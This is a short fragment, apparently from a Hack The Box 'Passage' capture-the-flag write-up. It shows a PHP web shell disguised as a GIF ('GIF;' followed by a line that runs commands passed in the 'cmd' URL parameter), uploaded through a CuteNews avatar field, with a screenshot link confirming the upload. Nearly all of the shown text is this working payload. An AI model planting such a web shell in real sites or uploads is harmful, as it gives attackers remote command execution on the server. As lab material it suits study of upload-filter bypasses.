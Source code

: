 ```php
GIF;
<?php system($_GET['cmd']) ?>
```

![User Info updated](/img/passage/passage_htb_cutenews_avatar_upload.png)
